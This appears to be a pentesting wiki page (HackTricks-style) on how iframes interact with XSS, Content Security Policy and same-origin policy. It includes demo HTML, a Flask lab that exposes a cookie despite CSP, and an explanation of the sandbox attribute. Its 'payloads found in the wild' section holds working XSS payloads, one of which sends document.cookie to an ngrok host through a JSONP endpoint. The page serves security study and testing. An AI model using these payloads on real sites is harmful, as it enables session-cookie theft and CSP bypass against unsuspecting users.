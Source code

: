 # Iframes in XSS, CSP and SOP

{{#include ../../banners/hacktricks-training.md}}

## Iframes in XSS

There are 3 ways to indicate the content of an iframed page:

- Via `src` indicating an URL (the URL may be cross origin or same origin)
- Via `src` indicating the content using the `data:` protocol
- Via `srcdoc` indicating the content

**Accesing Parent & Child vars**

```html
<html>
  <script>
    var secret = "31337s3cr37t"
  </script>

  <iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if2" src="child.html"></iframe>
  <iframe
    id="if3"
    srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe
    id="if4"
    src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

  <script>
    function access_children_vars() {
      alert(if1.secret)
      alert(if2.secret)
      alert(if3.secret)
      alert(if4.secret)
    }
    setTimeout(access_children_vars, 3000)
  </script>
</html>
```

```html
<!-- content of child.html -->
<script>
  var secret = "child secret"
  alert(parent.secret)
</script>
```

If you access the previous html via a http server (like `python3 -m http.server`) you will notice that all the scripts will be executed (as there is no CSP preventing it)., **the parent won’t be able to access the `secret` var inside any iframe** and **only the iframes if2 & if3 (which are considered to be same-site) can access the secret** in the original window.\
Note how if4 is considered to have `null` origin.

### Iframes with CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

> [!NOTE]
> Please, note how in the following bypasses the response to the iframed page doesn't contain any CSP header that prevents JS execution.

The `self` value of `script-src` won’t allow the execution of the JS code using the `data:` protocol or the `srcdoc` attribute.\
However, even the `none` value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the `src` attribute.\
Therefore it’s possible to bypass the CSP of a page with:

```html
<html>
  <head>
    <meta
      http-equiv="Content-Security-Policy"
      content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='" />
  </head>
  <script>
    var secret = "31337s3cr37t"
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe
    id="if3"
    srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe
    id="if4"
    src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![](<../../images/image (372).png>)

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario were a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```

### Other Payloads found on the wild <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe
  srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='
<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe
  src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### Iframe sandbox

The content within an iframe can be subjected to additional restrictions through the use of the `sandbox` attribute. By default, this attribute is not applied, meaning no restrictions are in place.

When utilized, the `sandbox` attribute imposes several limitations:

- The content is treated as if it originates from a unique source.
- Any attempt to submit forms is blocked.
- Execution of scripts is prohibited.
- Access to certain APIs is disabled.
- It prevents links from interacting with other browsing contexts.
- Use of plugins via `<embed>`, `<object>`, `<applet>`, or similar tags is disallowed.
- Navigation of the content's top-level browsing context by the content itself is prevented.
- Features that are triggered automatically, like video playback or auto-focusing of form controls, are blocked.

The attribute's value can be left empty (`sandbox=""`) to apply all the aforementioned restrictions. Alternatively, it can be set to a space-separated list of specific values that exempt the iframe from certain restrictions.

```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```

## Iframes in SOP

Check the following pages:

{{#ref}}
../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md
{{#endref}}

{{#ref}}
../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md
{{#endref}}

{{#ref}}
../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md
{{#endref}}

{{#ref}}
../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}


